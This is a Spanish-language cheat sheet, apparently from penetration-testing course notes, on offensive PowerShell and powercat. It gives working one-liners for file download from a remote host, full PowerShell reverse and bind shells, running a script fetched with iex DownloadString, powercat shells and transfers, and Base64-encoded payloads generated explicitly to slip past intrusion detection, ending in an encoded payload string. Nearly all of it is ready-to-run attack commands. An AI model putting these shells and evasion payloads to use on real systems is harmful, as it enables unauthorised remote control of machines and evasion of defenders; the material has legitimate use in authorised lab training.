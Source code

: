 # Powershell 
## Para configurar powershell sin restricciones
 lo ejecutamos como administrador y el siguiente comando
```
Set-ExecutionPolicy Unrestricted
```
podemos verificar el cambio realizado con 
```
Get-ExecutionPolicy
```
## Trasnferencia de archivos
Un ejemplo de trasnferencia de archivo
```
 powershell -c "(new-object System.Net.WebClient).DownloadFile('http:/
/10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
```
El parametro `-c` nos permitira ejecutar todo lo que este entre comillas dobles.
Con `(new-object System.Net.WebClient)` creamos una instancia de un WebClient.
La funcion `.DownloadFile` tiene 2 parametros, la ruta origen y la ruta destino
## PowerShell Reverse Shell 
Ejecutamos el comando
```
 powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.
11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =
$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.T
ext.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII
).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$c
lient.Close()"
```
Donde especificamos la ip y el puerto de la maquina remota donde queremos conectarnos.
## PowerShell Bind Shells
Ejecutamos el comando 
```
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener(
'0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $clie
nt.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $byt
es.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString
($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$str
eam.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Sto
p()"
```
## Powecat
Se puede instalar en Kali con 
```
apt install powercat
```
su ruta sera `/usr/share/windows-resources/powercat`

Podemos trasnferir el script a la maquina windows y ejecutar el script
```
 . .\powercat.ps1
```
Si la máquina de destino está conectada a Internet, podemos hacer lo mismo con un script remoto usando una vez más el práctico cmdlet iex de la siguiente manera.
```
iex (New-Object System.Net.Webclient).DownloadString('https://raw.
githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```
si lo hacemos de esta manera los script deberan cargarse cada vez que reiniciemos el powershell.
Ahora que el script esta cargado podemos usarlo con 
```
 powercat
```
## Transferencia de archivos con Powercat
La maquina que recibira los archivos se pone a la escucha con netcat 
```
 sudo nc -lnvp 443 > receiving_powercat.ps1
```
Y en la maquina desde la cual se enviara los archivos se ejcuta
```
powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
```
Especificando la ip y el puerto de la maquina que esta a la escucha, y el archivo que se desea trasnferir
## Powercat reverse shells
Comenzamos con nuestra maquina 
```
sudo nc -lvp 443
```
Y en la otra maquina ejecutamos powercat con la opcion `-e` para especificar que aplicacion queremos que se ejecute una vez realizada la conexion
```
powercat -c 10.11.0.4 -p 443 -e cmd.exe
```
## Powercat Bind Shell
Ponemos la maquina windows a la escucha con powercat, y especificamos la aplicacion que queremos que se ejecute al realizarse la conexion
```
powercat -l -p 443 -e cmd.exe
```
Y desde nuestra maquina nos conectamos con 
```
nc 10.11.0.22 443
```
## Powercat Stand-Alone Payloads
En powercat un payload es una serie de instrucciones, por ejemplo una vez que se tiene una maquina a la escucha podemos crear un payoad reverseShell
```
powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1
```
con el parametro `-g` redirigimos el resultado a un archivo, el cual luego podemos ejecutar ejm:
```
./reverseshell.ps1
```
Un `IDS` puede detectar este tipo de cargas utiles, para intentar superar este problema podemos usar comando codificados en `Base64` usando el parametro `ge`
```
 powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell.
ps1
```
El archivo contendra una cadena de caracteres codificiados, y para poder ejecutarlo debemos usar el parametro -E, pero especificando el contenido codificado ejemplo:
```
 powershell.exe -E ZgB1AG4AYwB0AGkAbwBuACAAUwB0AHIAZQBhAG0AMQBfAFM
AZQB0AHUAcAAKAHsACgAKACAAIAAgACAAcABhAHIAYQBtACgAJABGAHUAbgBjAFMAZQB0AHUAcABWAGEAcgBzA
CkACgAgACAAIAAgACQAYwAsACQAbAAsACQAcAAsACQAdAAgAD0AIAAkAEYAdQBuAGMAUwBlAHQAdQBwAFYAYQB
yAHMACgAgACAAIAAgAGkAZgAoACQAZwBsAG8AYgBhAGwAOgBWAGUAcgBiAG8AcwBlACkAewAkAFYAZQByAGIAb
wBzAGUAIAA9ACAAJABUAHIAdQBlAH0ACgAgACAAIAAgACQARgB1AG4AYwBWAGEAcgBzACAAPQAgAEAAewB9AAo
AIAAgACAAIABpAGYAKAAhACQAbAApAAoAIAAgACAAIAB7AAoAIAAgACAAIAAgACAAJABGAHUAbgBjAFYAYQByA
HMAWwAiAGwAIgBdACAAPQAgACQARgBhAGwAcwBlAAoAIAAgACAAIAAgACAAJABTAG8AYwBrAGUAdAAgAD0AIAB
OAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAGMAc
ABDAGwAaQBlAG4AdAAKACAAIAAgACA
```
